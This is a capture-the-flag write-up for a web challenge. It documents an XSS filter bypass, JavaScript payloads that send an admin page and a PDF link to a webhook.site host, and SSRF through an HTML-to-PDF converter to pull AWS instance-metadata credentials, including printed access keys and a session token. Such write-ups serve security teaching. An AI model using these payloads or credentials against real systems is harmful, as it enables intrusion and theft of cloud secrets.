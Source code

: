 # Welcoming Hacker As A Service - 300 Points

## Description: 
```We've made a simple application for generating welcome messages for hackers. Feel free to report any bugs you encounter.```

*Link: http://54.180.108.161/*


## Solution:

The home page gets username from user and directly inserts it to the html code. We could try inserting `<script>` tag, but the `script` keyword is removed from the input. We can bypass this by placing script inside the script `<scrscriptipt>` so the program removes the substring script which will become `<script>`.

![XSS](./images/1_XSS.png)

We can submit path containing the XSS payload in `/bugs` page.

There is a hidden page `/admin`, when trying to access it the tells `This is only accessible from the server.` but since we have XSS on the server side we can easily bypass this restriction. We can use the following payload to get the source of `/admin`

```js
// step 1
fetch("/admin")
    .then(
        data => data.text()
    )
    .then(admin => {
        fetch("https://webhook.site/01bcd1d7-0732-4cf2-a6f9-3a7056d8bdee", {
            method: "POST",
            body: JSON.stringify(admin)
        })
    })
```

The admin page simply gets HTML code from the user and renders the page into a pdf. The HTML code is sent to `/admin/convert` api which returns a link to the pdf document.

```js
const form = document.querySelector("#html-form");
const pdfLink = document.querySelector("#pdf-link");

form.addEventListener("submit", function(event) {
        event.preventDefault();
        const htmlCode = document.querySelector("#html-input").value;
        const xhr = new XMLHttpRequest();
        xhr.open("POST", "/admin/convert");
        xhr.setRequestHeader("Content-Type", "application/json");
        xhr.onload = function() {
                if (xhr.status === 200) {
                        const response = JSON.parse(xhr.responseText);
                        pdfLink.innerHTML = `Download your PDF <a href="${response.pdfLink}" target="_blank">here</a>`;
                } else {
                        pdfLink.innerHTML = `Error: ${response.error}`;
                }
        };
        xhr.onerror = function() {
                pdfLink.innerHTML = `Error: ${xhr.statusText}`;
        };
        xhr.send(JSON.stringify({htmlCode: htmlCode}));
});
```

The description of the challenge says that the flag is in s3 bucket, so we must get aws Access keys from the server. We can use the server's html to pdf converting mechanism to leak the aws access key from `http://169.254.169.254/`. I have no experience with aws or s3 so I followed [this writeup](https://world.hey.com/alois/aws-capture-the-flag-write-up-e64fa089) to get the access keys and used the aws cli to get the flag.

Code used to leak aws secrets:
```js
// step 2
const htmlCode = "<iframe src='http://169.254.169.254/latest/meta-data/iam/security-credentials/bugbase-sales-team' width='1000px' height='1000px'></iframe>";
const xhr = new XMLHttpRequest();
xhr.open("POST", "/admin/convert");
xhr.setRequestHeader("Content-Type", "application/json");
xhr.onload = function() {
        if (xhr.status === 200) {
                const response = JSON.parse(xhr.responseText);
                fetch("https://webhook.site/01bcd1d7-0732-4cf2-a6f9-3a7056d8bdee", {
                    method: "POST",
                    body: response.pdfLink
                })
        }
};
xhr.send(JSON.stringify({htmlCode: htmlCode}));
```

Make sure to copy the session token properly!
```sh
root@68f2a5d7e33f:/# cat ~/.aws/credentials
[bugbase]
aws_access_key_id = ASIA5232YEM3KTZFU2FP
aws_secret_access_key = Vp9U1l09AptRNfyW3d9/6TNQCrsJ/dASr2dliWgR
aws_session_token = IQoJb3JpZ2luX2VjEGwaDmFwLW5vcnRoZWFzdC0yIkgwRg<----snip---->SuULtBtvHNBrM6fLwzoHRv

root@68f2a5d7e33f:/# aws s3 cp s3://bugbase-secret-file-storage/flag.txt . 
--profile bugbase
root@68f2a5d7e33f:/# cat flag.txt
BugBase{m0n3y_c4n7_buy_h4pp1n3ss}

```

Exploit: [Link](./hack.js)

Flag: `BugBase{m0n3y_c4n7_buy_h4pp1n3ss}`
